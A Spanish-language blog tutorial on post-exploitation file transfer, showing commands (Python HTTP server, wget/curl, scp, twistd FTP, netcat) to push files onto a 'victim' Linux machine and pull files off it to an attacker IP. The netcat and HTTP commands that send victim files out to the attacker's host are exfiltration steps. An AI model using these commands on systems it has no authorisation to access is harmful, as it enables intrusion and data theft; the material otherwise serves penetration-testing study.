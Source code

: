 ```yaml
---
layout: single
title: Subida y Bajada de archivos (Post explotacion) 
excerpt:
date: 2024-01-17
classes: wide
header:
  teaser: https://404zzero.github.io/zzero.github.io//assets/images/archivoslinux/kali_linux.jpg
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


buenas. hoy vengo a enseñar los metodos de post explotacion para subir y bajar archivos dependiendo de la conexion que tengamos con la maquina victima

## Subir archivos a la victima

## HTTP server

con este metodo habriremos un servidor de python en el directorio donde esta el archivo que queremos subir.
 
 comando maquina atacante:
```python

python -m SimpleHTTPServer 80

```
comandos para la maquina victima:

```python
wget http://<Tu_IP>/<elarchivo>

o

curl -o FiletoTransfer http://<tu_IP>/<elarchivo>
```
## SCP

ESTE METODO SOLO SERA VALIDO SI LA MAQUINA OBJETIVO TIENE SSH Y DISPONEMOS DE LAS CREDENCIALES.

en este solo necesitamos un comando:

```python

scp FiletoTransfer <usuario>@<IP>:<archivo>

```

## FTP

Montaremos un ftp temporal(podriamos utilizar un ftp convencional) utilizando la utilidad twistd para asi acceder desde la víctima y descargar el archivo

el comando de la maquina atacante: 

```python

twistd -n ftp -r .

```

maquina victima:

```python

wget ftp://<IP>:<puerto_a_elegir>/<archivo>

```
## netcat

podemos usar netcat para poder pasar archivos. casi todas las maquinas linux lo traen pre instalado entonces podemos usarlo

primero tenemos que ejecutar el comando en la maquina victima 

```python

nc -lvp <port_a_elegir> > FiletoTransfer

```

y despues la maquina atacante 

```python

	
nc <IP> <Port_a_elegit> -w 3 < <archivo>


```

## Bajar archivos de la víctima

## Netcat

se pude utilizar netcat a la inversa para hace este procedimiento, pero hay que tener en cuenta los permisos que tenga el usuario sobre el archivo

Comando máquina atacante:

```python
	
nc -lvp <Puerto_a_elegir> > FiletoDownload

```
Comando máquina víctima:

```python
	
nc <IP> <Puerto_a_elegir> -w 3 < <archivo>

```

## Server HTTP

es basicamente lo mismo que e hemos echo para subir archivos pero al reves.

tambien, hay que tener en cuenta que la maquina tenga python y los permisos que tenga

Comando máquina víctima:

```python

python -m SimpleHTTPServer 8080

```

Comando máquina atacante:

```python

wget http://<IP>:8080/<archivo>

```

## SCP

Este metodo solo será valido si la máquina objetivo tiene ssh y disponemos de las credenciales.
Utilizaremos la utilidad scp para transferir el archivo de la máquina víctima a la nuestra.

Comando máquina atacante:

```python

scp tester@<IP>:<archivo> .

```
## conclusion

estas son algunas de las mas utilizadas, seguro hay mas. 
pronto subire este articulo pero para windows.
adios 

